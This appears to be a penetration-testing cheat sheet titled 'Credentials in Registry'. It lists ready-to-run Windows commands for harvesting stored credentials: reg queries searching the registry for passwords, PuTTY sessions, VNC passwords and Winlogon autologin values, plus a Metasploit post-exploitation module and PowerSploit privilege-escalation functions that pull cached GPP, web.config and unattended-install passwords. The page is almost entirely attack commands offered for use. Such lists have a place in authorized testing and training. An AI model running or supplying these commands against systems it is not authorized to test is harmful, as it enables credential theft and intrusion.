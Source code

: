 # Credentials in Registry

### 1) Cmd

##### String matching in registry

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

##### Putty

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /t REG_SZ /s

##### VNC

    reg query "HKCU\Software\ORL\WinVNC3\Password"

##### Windows autologin

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

### 2) Metasploit

    post/windows/gather/credentials/windows_autologin

### 3) Powersploit

##### Import privesc module

    Import-Module .\Privesc.psd1

    Get-UnattendedInstallFile
    Get-Webconfig
    Get-ApplicationHost
    Get-SiteListPassword
    Get-CachedGPPPassword
    Get-RegistryAutoLogon
